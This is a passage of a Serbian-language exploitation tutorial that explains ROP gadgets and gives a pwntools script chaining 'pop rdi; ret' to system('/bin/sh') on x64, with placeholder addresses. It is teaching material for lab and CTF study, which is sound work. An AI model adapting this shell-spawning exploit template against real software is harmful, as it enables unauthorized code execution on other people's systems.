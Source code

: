 #### **Pronalaženje Gadgeta**

Za našu svrhu, fokusiraćemo se na gedžete koji će nam omogućiti postavljanje registra **RDI** (kako bismo prosledili string **"/bin/sh"** kao argument funkciji **system()**) i zatim pozvali funkciju **system()**. Pretpostavićemo da smo identifikovali sledeće gedžete:

* **pop rdi; ret**: Skida vrh vrednosti sa steka u registar **RDI** i zatim se vraća. Bitan za postavljanje argumenta za **system()**.
* **ret**: Jednostavan povratak, koristan za poravnanje steka u nekim scenarijima.

I znamo adresu funkcije **system()**.

### **ROP Lanac**

U nastavku je primer korišćenja **pwntools** za postavljanje i izvršavanje ROP lanca sa ciljem izvršavanja **system('/bin/sh')** na **x64**:

```python
pythonCopy codefrom pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadbeefdeadbeef

# Gadgets (hypothetical values)
pop_rdi_gadget = 0xcafebabecafebabe  # pop rdi; ret
ret_gadget = 0xdeadbeefdeadbead     # ret gadget for alignment, if necessary

# Construct the ROP chain
rop_chain = [
ret_gadget,        # Alignment gadget, if needed
pop_rdi_gadget,    # pop rdi; ret
bin_sh_addr,       # Address of "/bin/sh" string goes here, as the argument to system()
system_addr        # Address of system(). Execution will continue here.
]

# Flatten the rop_chain for use
rop_chain = b''.join(p64(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```

U ovom primeru:
